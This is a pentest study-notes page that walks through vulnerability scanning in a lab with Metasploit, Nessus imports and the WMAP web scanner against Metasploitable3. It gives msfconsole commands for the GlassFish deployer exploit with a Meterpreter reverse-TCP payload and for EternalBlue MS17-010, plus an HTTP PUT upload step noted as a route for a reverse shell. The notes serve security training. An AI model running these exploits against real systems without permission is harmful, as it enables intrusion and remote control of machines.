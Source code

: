 # Vulnerability Assestment

## Vulnerability Scanning With MSF <a href="#vulnerability-scanning-with-msf" id="vulnerability-scanning-with-msf"></a>

MSF **Auxiliary** and **exploit** modules can be utilized to identify inherent vulnerabilities in services, O.S. and web apps.

* Useful in the **Exploitation** phase of the pentest

🔬 [Metasploitable3](https://github.com/rapid7/metasploitable3) lab environment will be used for the vulnerability scanning demonstration.

* **Metasploitable3** is a vulnerable virtual machine developed by Rapid7, intended to be used as a vulnerable target for testing exploits with Metasploit.

> 🔬 You can find my lab installation & configuration with Vagrant at [this page](https://blog.syselement.com/home/home-lab/redteam/metasploitable3), _set up for educational purposes_.

* Kali Linux attacker machine must be configured with **the same local network** of the Metasploitable3 VMs.

Detect active hosts on the local network, from the Kali VM:sudo nmap -sn 192.168.31.0/24Nmap scan report for 192.168.31.139 # Linux targetNmap scan report for 192.168.31.140 # Windows2008 target

* Run Metasploit:

service postgresql start && msfconsole -qdb\_statussetg RHOSTS 192.168.31.140setg RHOST 192.168.31.140workspace -a VULN\_SCAN\_MS3

* **Service version** is a key piece of information for the vulnerabilities scanning. Use the **`db_nmap`** command inside the MSF

db\_nmap -sS -sV -O 192.168.31.140\[\*] Nmap: 21/tcp open ftp Microsoft ftpd\[\*] Nmap: 22/tcp open ssh OpenSSH 7.1 (protocol 2.0)\[\*] Nmap: 80/tcp open http Microsoft IIS httpd 7.5\[\*] Nmap: 135/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 139/tcp open netbios-ssn Microsoft Windows netbios-ssn\[\*] Nmap: 445/tcp open microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds\[\*] Nmap: 3306/tcp open mysql MySQL 5.5.20-log\[\*] Nmap: 3389/tcp open tcpwrapped\[\*] Nmap: 4848/tcp open ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)\[\*] Nmap: 7676/tcp open java-message-service Java Message Service 301\[\*] Nmap: 8009/tcp open ajp13 Apache Jserv (Protocol v1.3)\[\*] Nmap: 8080/tcp open http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)\[\*] Nmap: 8181/tcp open ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)\[\*] Nmap: 8383/tcp open http Apache httpd\[\*] Nmap: 9200/tcp open wap-wsp?\[\*] Nmap: 49152/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 49153/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 49154/tcp open msrpc Microsoft Windows RPC\[\*] Nmap: 49155/tcp open msrpc Microsoft Windows RPC\[...]db\_nmaphostsservices

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-da30e0d4036528a13a9f80ff9d8b01fdd950c4eb%2Fimage-20230413200524969.png?alt=media" alt=""><figcaption></figcaption></figure>

* Manually search for a specific exploit
  * Check if there are any exploits for a particular **version** of a service

search type:exploit name:iissearch type:exploit name:iissearch Sun GlassFish

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-375c51ac9321889fd7f66157154bed2363465c80%2Fimage-20230413192845621.png?alt=media" alt=""><figcaption></figcaption></figure>

* Check if a module will work on the specific version of the service

use exploit/multi/http/glassfish\_deployerinfo​# Description:# This module logs in to a GlassFish Server (Open Source or# Commercial) using various methods (such as authentication bypass,# default credentials, or user-supplied login), and deploys a# malicious war file in order to get remote code execution. It has# been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System# Application Server 9.x. Newer GlassFish versions do not allow remote# access (Secure Admin) by default, but is required for exploitation.set payload windows/meterpreter/reverse\_tcpoptions# check the LHOST, LPORT, APP\_RPORT, RPORT, PAYLOAD options

* Use [searchsploit](https://www.exploit-db.com/searchsploit) tool from the Kali terminal, instead of `search MSF command`, by displaying only the Metasploit exploit modules

searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ccd61dd756b19c9fe6732fd4bc6df233f08f8c9a%2Fimage-20230413194606641.png?alt=media" alt=""><figcaption></figcaption></figure>

* Back in `msfconsole`, check if the server is vulnerable to MS17-010

search eternalblueuse auxiliary/scanner/smb/smb\_ms17\_010runuse exploit/windows/smb/ms17\_010\_eternalblueoptions# always check Payload optionsrun

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e9399a0e6c8efc589338f07390d7ad79f5433cf8%2Fimage-20230413200558380.png?alt=media" alt=""><figcaption></figcaption></figure>

> ​[**metasploit-autopwn**](https://github.com/hahwul/metasploit-autopwn) - a Metasploit plugin for easy exploit & vulnerability attack.
>
> * _takes a look at the Metasploit database and provides a list of exploit modules to use for the already enumerated services_

* On a Kali terminal

wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db\_autopwn.rbsudo mv db\_autopwn.rb /usr/share/metasploit-framework/plugins/

* On `msfconsole`

load db\_autopwndb\_autopwn -p -t# Enumerates exploits for each of the open portsdb\_autopwn -p -t -PI 445# Limit to only the 445 portdb\_autopwn -p -t -PI 445

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-aebfca43b742e41d758e63a2e3e6b0cdbc355643%2Fimage-20230413202435550.png?alt=media" alt=""><figcaption></figcaption></figure>

* On `msfconsole` use the **`analyze`** command to auto analyze the contents of the MSFdb (hosts & services)

analyzeanalyzevulnsvulns

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ceda763cca80af814cb9304c543bd68cb4bb61f3%2Fimage-20230413202802181.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-f2413c550b79a3a1148a63bdb63d63dc5778b675%2Fimage-20230413202708057.png?alt=media" alt=""><figcaption></figcaption></figure>

## VA with [Nessus](https://www.offsec.com/metasploit-unleashed/working-with-nessus/)​ <a href="#va-with-nessus" id="va-with-nessus"></a>

> 🔬 You can find my [**Nessus Essentials** install tutorial here](https://blog.syselement.com/home/operating-systems/linux/tools/nessus).

* A vulnerability scan with Nessus result can be imported into the MSF for analysis and exploitation.
* Nessus Essentials free version allows to scan up to 16 IPs.

Start Nessus Essentials on the Kali VM, login and create a New **Basic Network Scan** and run it.Wait for the scan conclusion and export the results with the **Export/Nessus** button.![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-986ff2afeccc2978f8dfefa575f9bdf4d236d58d%2Fimage-20230413222104319.png?alt=media)Nessus Essentials - Metasploitable3

* Open the `msfconsole` terminal and import the Nessus results
  * Check the information from the scan results with the `hosts`, `services`, `vulns` commands

workspace -a MS3\_NESSUSdb\_import /home/kali/Downloads/MS3\_zph3t5.nessushostsservicesvulns![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-1562ae2abdb68d12d5245bf395d9dd026ad7295c%2Fimage-20230413222333897.png?alt=media)vulns -p 445![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-22fa84721de13f146690e31e9bde9df8926340e6%2Fimage-20230413222411974.png?alt=media)search cve:2017 name:smbsearch MS12-020search cve:2019 name:rdpsearch cve:2015 name:ManageEnginesearch PHP CGI Argument Injection

#### VA with [WMAP](https://www.offsec.com/metasploit-unleashed/wmap-web-scanner/)​ <a href="#va-with-wmap" id="va-with-wmap"></a>

🗒️ **WMAP** is a web application vulnerability scanner that allows to conduct and automate web server enumeration and scanning from within the Metasploit Framework.

* Available as a fully integrated MSF plugin
* Utilizes the in-built MSF auxiliary modules

> 🔬 The lab is the same one from the HTTP Metasploit Enumeration section above - [Metasploit - Apache Enumeration Lab](https://www.attackdefense.com/challengedetails?cid=118)​

ip -br -c a192.28.60.3# Target IP​service postgresql start && msfconsole -qdb\_statussetg RHOSTS 192.28.60.3setg RHOST 192.28.60.3workspace -a WMAP\_SCAN

* Load WMAP extension within `msfconsole`

load wmap![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-c0b6ef2389f185e284ff6f7adfeafebf8c20102a%2Fimage-20230415164951596.png?alt=media)load wmap

* Add WMAP site

wmap\_sites -a 192.28.60.3

* Specify the target URL

wmap\_targets -t http://192.28.60.3wmap\_sites -lwmap\_targets -l

* Show only the MSF modules that will be able to be run against target

wmap\_run -t

* Run the **web app vulnerability scan**
  * this will run all enabled modules against the target web server

wmap\_run -e

* _Analyze the results produced by WMAP._

wmap\_run -twmap\_run -e

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e1c6ae0eaf0eeb364e08f62acd3996d79d8076dd%2Fimage-20230415170207090.png?alt=media" alt=""><figcaption></figcaption></figure>

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-95e786ae8af9e36702f2dca72d5c949173c12d85%2Fimage-20230415165930386.png?alt=media" alt=""><figcaption></figcaption></figure>

* List WMAP found vulnerabilities

wmap\_vulns -l

* Since the allowed methods are `POST`, `OPTIONS`, `GET`, `HEAD`, exploit the vulnerability with the use of `auxiliary/scanner/http/http_put` module to upload a file into the `/data` directory
  * 📌 A reverse shell payload can be uploaded and run on the target.

use auxiliary/scanner/http/http\_putoptionsset PATH /data/set FILEDATA "File uploaded"set FILENAME file.txtrunMetasploit - auxiliary/scanner/http/http\_put

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-23e3f18254581336f1ee00860ef87f174f176772%2Fimage-20230415171358249.png?alt=media" alt=""><figcaption></figcaption></figure>

* Test if the file has been uploaded correctly

curl http://192.28.60.3:80/data/file.txt
